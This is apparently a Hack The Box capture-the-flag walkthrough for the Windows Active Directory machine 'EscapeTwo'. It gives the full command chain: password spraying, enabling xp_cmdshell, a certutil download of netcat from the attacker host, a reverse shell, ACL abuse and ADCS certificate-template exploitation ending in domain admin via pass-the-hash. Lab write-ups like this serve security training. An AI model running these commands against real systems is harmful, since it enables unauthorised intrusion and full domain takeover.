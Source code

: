 # EscapeTwo HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-EscapeTwo-green?logo=hackthebox)](https://www.hackthebox.com)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/HTB/Challenges)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/HTB/Challenges)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

EscapeTwo is an easy Windows domain machine showcasing a full AD domain takeover:
- Starting with user credentials for domain enumeration and SMB share access,
- Fixing a corrupted Excel file header to extract hidden credentials,
- Using extracted credentials for MSSQL authentication and command execution (xp_cmdshell),
- Leveraging reverse shell with Netcat and certutil for lateral movement,
- Performing password spraying on WinRM and SMB for further access,
- Enumerating and abusing AD ACLs to control certificate services user,
- Exploiting misconfigured Active Directory Certificate Services (ADCS) to impersonate domain admin,
- Finally, gaining domain admin access and retrieving the root flag.

---

## Table of Contents

- [1. Initial Enumeration](#1-initial-enumeration)
- [2. SMB Share Enumeration and File Extraction](#2-smb-share-enumeration-and-file-extraction)
- [3. Repairing Corrupted Excel File](#3-repairing-corrupted-excel-file)
- [4. Password Spraying and MSSQL Access](#4-password-spraying-and-mssql-access)
- [5. Enabling xp_cmdshell and Reverse Shell](#5-enabling-xp_cmdshell-and-reverse-shell)
- [6. Lateral Movement Using WinRM](#6-lateral-movement-using-winrm)
- [7. Active Directory Enumeration with BloodHound](#7-active-directory-enumeration-with-bloodhound)
- [8. ACL Abuse and ADCS Enumeration](#8-acl-abuse-and-adcs-enumeration)
- [9. Exploiting Vulnerable Certificate Template](#9-exploiting-vulnerable-certificate-template)
- [10. Domain Admin Access and Root Flag](#10-domain-admin-access-and-root-flag)
- [11. Stepwise PoC (click to expand)](#11-stepwise-poc-click-to-expand)

---

## 1. Initial Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.232.128 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.232.128
```

- Scans all TCP ports, extracts open ports, then runs version detection and default NSE scripts on those ports.
- Open services included SMB(445), LDAP(389), Kerberos(88), and MSSQL(1433).
 ```
 echo "10.129.232.128 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts`
 ```
- Adds IP to hosts for domain resolution.

---

## 2. SMB Share Enumeration and File Extraction
```
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.232.128
use Accounting Department
ls
get accounts.xlsx`
```
- Lists SMB shares accessible with user `rose`.
- Downloads `accounts.xlsx` – a corrupted Excel file suspected to contain secrets.

---

## 3. Repairing Corrupted Excel File
```
file accounts.xlsx
7z x accounts.xlsx
hexedit accounts.xlsx
xxd accounts.xlsx
```
- Determine file type: `.xlsx` files are ZIP archives.
- Extraction fails due to corrupted header bytes `50 48 04 03`.
- Manual hex edit to fix header to standard ZIP magic bytes `50 4B 03 04`.
- File opens successfully, revealing credentials inside.

---

## 4. Password Spraying and MSSQL Access

`netexec smb 10.129.232.128 -u users.txt -p pass.txt`

- Password spray with user and password lists to find valid combinations (finds valid user `oscar`).

```
netexec mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```
- Connect to MSSQL with high-privilege `sa` account using found credentials.

Enable command execution:
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Enables `xp_cmdshell` procedure to run OS commands, reveals `sequel\sql_svc` user.

---

## 5. Enabling xp_cmdshell and Reverse Shell
```
nc -lnvp 4455
python3 -m http.server 4000
```
- Start a Netcat listener and simple HTTP server locally.
- Start a Netcat listener and simple HTTP server locally.

```
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.96:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.96 4455';
```
- Downloads Netcat to victim using `certutil`.
- Executes Netcat to connect back and spawn a reverse shell on attacker machine.

---

## 6. Lateral Movement Using WinRM
```
net user
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
```
- Enumerate users on Windows.
- Spray Password on WinRM port 5985 to find valid login (`ryan`).
- Use Evil-WinRM to spawn remote PowerShell session as `ryan`.
- Retrieve user flag for confirmation.

---

## 7. Active Directory Enumeration with BloodHound

`bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip`

- Perform comprehensive enumeration of AD structure, permissions, and sessions.
- Identify privilege escalation paths involving `ca_svc` account.

---

## 8. ACL Abuse and ADCS Enumeration
```
python owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
python dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```
- Change ownership and grant `FullControl` to `ryan` over `ca_svc`.
- Also we can reset `ca_svc` password via PowerView or similar tools.

---

## 9. Exploiting Vulnerable Certificate Template
 ```
 certipy shadow -account ca_svc -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' auto 
 certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -text
 certipy template -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -template 'DunderMifflinAuthentication' -save-old
 certipy req -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn     
 administrator@sequel.htb -dns dc01.sequel.htb	
 certipy auth -pfx administrator_dc01.pfx
```
- Enumerate CA templates and spot misconfigurations.
- Modify template to remove approval requirement and enable client authentication.
- Request a certificate impersonating administrator.
- Authenticate with the certificate and extract domain admin NTLM hash.

---

## 10. Domain Admin Access and Root Flag
```
evil-winrm -i 10.128.124.12 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
whoami
type C:\Users\Administrator\Desktop\root.txt
```
- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## 11. Stepwise PoC (click to expand)

<details>
 <img width="1567" height="841" alt="39" src="https://github.com/user-attachments/assets/cf78e34a-3d0b-4eba-b639-657c3207a13f" />
<img width="1163" height="746" alt="38" src="https://github.com/user-attachments/assets/da0d5c09-c9f9-4460-8e48-01f1d860b11b" />
<img width="1090" height="94" alt="37" src="https://github.com/user-attachments/assets/fa326e43-0f87-4fae-80d0-1ba35e1adc18" />
<img width="1827" height="468" alt="36" src="https://github.com/user-attachments/assets/ae250058-a54a-45de-bcdf-3b4808ff4148" />
<img width="1224" height="622" alt="35" src="https://github.com/user-attachments/assets/6264ec1c-f2dc-4f0e-af5e-c2da8b4e02a1" />
<img width="1908" height="147" alt="34" src="https://github.com/user-attachments/assets/29b6aaa8-2abd-4668-b769-e8a1fa85d4c4" />
<img width="1835" height="726" alt="33" src="https://github.com/user-attachments/assets/6e94d1d3-a9e7-4f54-9a8f-6cd5b31eb144" />
<img width="838" height="356" alt="32" src="https://github.com/user-attachments/assets/e0670fcf-38fa-414d-95f5-0018013d7ad2" />
<img width="1213" height="843" alt="31" src="https://github.com/user-attachments/assets/57a3e493-1569-4cde-9b44-a19696eda0d8" />
<img width="1200" height="816" alt="30" src="https://github.com/user-attachments/assets/11129b40-7bd6-4b84-ab19-d9aad51dbc28" />
<img width="1107" height="662" alt="29" src="https://github.com/user-attachments/assets/a8e0e96f-bef7-4918-8afb-5eff7c8844ed" />
<img width="1381" height="341" alt="28" src="https://github.com/user-attachments/assets/56c42ec9-919b-4ae6-80ee-9429d9ba82ac" />
<img width="1399" height="597" alt="27" src="https://github.com/user-attachments/assets/796b65f9-7d01-4e5c-bd7f-3f6b066c7431" />
<img width="1410" height="811" alt="26" src="https://github.com/user-attachments/assets/5151efae-e489-4f7a-bb5c-f86837eb53c7" />
<img width="749" height="170" alt="25" src="https://github.com/user-attachments/assets/666da45b-b6d6-418a-a0c0-924a0fd2092b" />
<img width="843" height="136" alt="24" src="https://github.com/user-attachments/assets/d23abef6-7ce1-462e-ac88-f5368e5caf20" />
<img width="1405" height="485" alt="23" src="https://github.com/user-attachments/assets/0564f09f-007f-4a6b-b692-eed71288a235" />
<img width="1698" height="772" alt="22" src="https://github.com/user-attachments/assets/1c69f4a6-56ea-4708-9614-17b8b70abfcf" />
<img width="867" height="501" alt="21" src="https://github.com/user-attachments/assets/ada0b434-acf4-468a-8907-fed186ba56e1" />
<img width="920" height="718" alt="20" src="https://github.com/user-attachments/assets/0640dfdf-667d-443e-9334-8783ab7deb1b" />
<img width="756" height="707" alt="19" src="https://github.com/user-attachments/assets/6726c592-3a77-4f8f-adc7-75a3edbacfba" />
<img width="948" height="380" alt="18" src="https://github.com/user-attachments/assets/6763d4a1-5373-4952-a383-278ae40c5662" />
<img width="1055" height="471" alt="17" src="https://github.com/user-attachments/assets/6b46c9bd-0378-4ece-8dd7-60dab7bc2fe8" />
<img width="1003" height="487" alt="16" src="https://github.com/user-attachments/assets/ce2f4474-46e9-4f5a-b943-871f87cd5c95" />
<img width="976" height="730" alt="15" src="https://github.com/user-attachments/assets/92426af9-b80f-4dae-828d-6f856206a30c" />
<img width="1593" height="848" alt="14" src="https://github.com/user-attachments/assets/5a0817fc-c347-40eb-8698-6166d9567721" />
<img width="1026" height="281" alt="13" src="https://github.com/user-attachments/assets/87cad8f2-7a3f-4e75-b1da-e47eb4a82156" />
<img width="1007" height="304" alt="12" src="https://github.com/user-attachments/assets/5518be24-e84c-44f2-872a-35ba15410648" />
<img width="1010" height="212" alt="11" src="https://github.com/user-attachments/assets/c3a935f3-c6c9-4309-aec8-d80d04944e44" />
<img width="1593" height="711" alt="10" src="https://github.com/user-attachments/assets/8cc34080-7466-4aba-b90e-77dbf06a296b" />
<img width="1015" height="356" alt="9" src="https://github.com/user-attachments/assets/3c88a4f3-850c-4a52-aebc-0469eaa36d2b" />
<img width="1010" height="233" alt="8" src="https://github.com/user-attachments/assets/83a27c6d-c699-4552-bbb7-ae764d6d7025" />
<img width="1591" height="663" alt="7" src="https://github.com/user-attachments/assets/8140794e-8d30-4c0c-a6d2-c1dfa0eb2a80" />
<img width="1829" height="669" alt="6" src="https://github.com/user-attachments/assets/fc9acdee-23bd-40b6-9252-49e88eda588d" />
<img width="1227" height="691" alt="5" src="https://github.com/user-attachments/assets/52dca908-e45d-4e9c-acea-5857fdfd71cc" />
<img width="1016" height="287" alt="4" src="https://github.com/user-attachments/assets/526a5f64-d973-4f41-bfcb-becbeaaf0bf0" />
<img width="1008" height="452" alt="3" src="https://github.com/user-attachments/assets/fef3eb82-7daf-4cff-a6c7-6a6291d7a28b" />
<img width="1011" height="509" alt="2" src="https://github.com/user-attachments/assets/60caf3be-d8a5-4a40-ab17-9083b37c7c9a" />
<img width="1021" height="478" alt="1" src="https://github.com/user-attachments/assets/05301ce8-6ced-4939-85b8-36b4e99999a1" />

</details>

---

## Tools & References

- **NetExec (nxc):** Network service exploitation and spraying
- **Impacket:** SMB and MSSQL clients
- **BloodHound:** AD permission visualizer and enumeration
- **Certipy:** ADCS enumeration and exploitation
- **Evil-WinRM:** Remote PowerShell shell over WinRM
- **Standard Linux tools:** `nmap`, `netcat`, `file`, `7z`, `hexedit`

---

## Final Notes

- Master the flow from enumeration → foothold → lateral movement → escalation.
- ADCS misconfiguration remains a powerful vector in domain takeovers.
- Proper ACL management and template hardening are critical defenses.

---




